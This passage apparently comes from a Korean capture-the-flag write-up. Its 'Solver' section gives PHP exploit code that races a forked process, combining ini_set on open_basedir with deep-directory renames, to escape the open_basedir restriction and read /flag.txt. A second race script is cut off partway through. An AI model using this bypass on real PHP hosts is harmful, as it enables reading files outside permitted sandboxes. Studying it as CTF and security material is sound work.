 위 아이디어를 최종 익스플로잇 코드로 구현한다면 open_basedir을 우회하여 flag를 획득할 수 있다.

## Solver

```php
<?
chdir("/tmp");

$allowed_path = "/tmp";

@mkdir("start/");
chdir("start/");
$cur_dir = getcwd();
$cur_dir_len = strlen($cur_dir);

$magic_depth = str_repeat(str_repeat("a", 249) . "/", 16 - floor($cur_dir_len / 250));
@mkdir($magic_depth, 0755, true);

chdir($magic_depth);

$pid = pcntl_fork();
var_dump($pid);
if ($pid == -1)
    die;
if ($pid == 0) {
    for ($i = 0; $i < 25; $i++) {
        usleep(300);
        $cur_basedir = ini_get("open_basedir");
        ini_set("open_basedir", $cur_basedir . ":../");
    }
    chdir($allowed_path);
    chdir("../");

    $content = @file_get_contents("/flag.txt");
    if (!$content)
        die("failed\n");
    echo $content;
} else {
    chdir("/tmp");
    for ($i = 0; $i < 30000; $i++) {
        usleep(30);
        rename("start", str_repeat("x", 250));
        rename(str_repeat("x", 250), "start");
    }
}
?>
```

```php
<?php
@rmdir("/tmp/adir/bdir");
@rmdir("/tmp/adir");
@rmdir("/tmp/bdir");

mkdir("/tmp/adir");
mkdir("/tmp/adir/bdir");
chdir("/tmp/adir/bdir");

$count = 100000000;

$pid = pcntl_fork();
if ($pid == -1) {
    die('could not fork');
} else if ($pid) {
```